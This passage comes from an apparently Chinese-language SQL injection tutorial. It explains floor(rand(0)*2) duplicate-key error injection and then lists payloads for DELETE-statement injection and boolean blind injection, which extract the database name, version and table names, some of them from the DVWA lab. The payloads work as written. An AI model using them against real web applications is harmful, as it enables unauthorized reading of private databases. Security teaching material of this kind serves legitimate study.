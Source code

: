 | key  | count(\*) |
| :--: | :-------: |
|  1   |     1     |

第三次读floor(rand(0)\*2),读取1，在虚拟表中存在，值加以，此时的表为：

| key  | count(\*) |
| :--: | :-------: |
|  1   |     2     |

第四次读取到0，在虚拟表中不存在，再次读取1，插入到表中，但此时表中已经存在键值1，所以会报错

报错内容会出现重复插入的key值，我们用concat函数将其与我们要查询的信息连接起来即可

<br>

#### 5、delete注入（一班用于前后端发帖、留言、用户等相关删除操作）

```sql
delete from massage where id =56 or updatemxl(1,concat(0x7e,(database())),1)
```

![](https://s2.loli.net/2022/03/18/KCNIJorSQzMiBbD.png)

#### 6、boolian盲注

猜数据库版本

```sql
?id=1' and length(database())>3--+
```

```
?id=1' and ascii(substr(version(),1,1))=65--+
```



猜长度：

```sql
id=1 and (length((select table_name from information_schema.tables where table_schema=database() limit 0,1))<100) --+
```

```sql
?id=1' and length((select table_name from information_schema.tables where table_schema='dvwa' limit 1,1))>1--+
```



猜字符：

```sql
?id=1 and (substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)="c")--+
```

```sql
?id=1' and ascii(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1,1))>0--+
```
